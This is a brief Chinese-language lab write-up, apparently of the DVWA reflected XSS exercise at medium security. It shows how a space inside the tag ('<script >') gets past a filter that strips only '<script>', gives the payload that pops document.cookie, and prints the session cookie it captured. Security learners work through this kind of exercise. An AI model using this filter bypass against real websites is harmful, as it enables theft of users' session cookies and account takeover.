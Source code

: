 # Reflected XSS

>Objective 
> One way or another, steal the cookie of a logged in user.

### 觀察

看 source 的話會發現他只有 replace `<script>` ，也就是說只要避開完整的字串就行了🤔

### 試著將字串拆開

經過幾次嘗試後，試著將 tag 結尾前的字串拆開空出一格，會發現這樣做下面的參考連結也都消失了
```
<script >alert(1)
```

### Done
看起瀏覽器一樣會認為這是合法的 script tag
```jsx
<script >alert(document.cookie)</script>
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f33cae9f-7615-48ee-a8d5-0c53dd922f0a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T143428Z&X-Amz-Expires=86400&X-Amz-Signature=bfc5a9db0108ec1cda7b4c5fe0d3f3a1e09d15be6597f8ec8c1b8e3ce634907b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
PHPSESSID=ov64qqshkod7693old2kdk59e3; security=medium
```
